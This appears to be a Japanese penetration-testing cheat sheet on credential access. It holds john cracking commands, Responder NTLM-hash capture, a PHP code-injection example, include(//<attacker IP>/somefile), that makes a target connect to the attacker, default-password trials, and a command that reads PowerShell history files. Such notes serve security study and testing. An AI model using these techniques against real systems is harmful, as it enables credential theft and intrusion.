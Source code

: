 # 資格情報アクセス

## アプリケーションに含まれる情報
・.jarの情報はJD-GUIで見れる
    ・Spring Bootを使用していればapplication.propertiesで見れる


## パスワードハッシュ解析
DB等から取得したパスワードハッシュを復元することで、パスワードを使いまわしている場合に別システムに侵入できる

Hash Identinierでハッシュ値の形式を特定できる

```
hash-identifier
```

johnでパスワード解析できる
```
john --format=raw-sha512 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```
Kali Linuxであれば/user/share/wordlistsにrockyouの圧縮されたファイルがある。
formatで指定できる形式は以下を参照
https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats

パスワード解析にはWebから使用できるCrackStationも便利
https://crackstation.net/

## NTLMハッシュの取得

### Responder
```
responder -I tun0
```
Responderを使用することで様々な通信を受けることができる

### 攻撃対象からResponderへの通信を発生させる
responderを起動した後、攻撃対象のWebアプリケーション等に対して外部のファイルを取得するように動かす
```
例：PHPでinclude(//<受けのIPアドレス>/somefile)を実行されるようCodeInjectionを行うなど
```
取得できたハッシュをjohnなどで解析する

## デフォルトパスワードの使用
サービスごとのデフォルトパスワードでログインできないか試行する。

https://cirt.net/passwords

## Powershellの履歴取得
以下の場所からPowerShellのコマンド実行履歴を取得できる

```
type C:\Users\<ユーザ>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```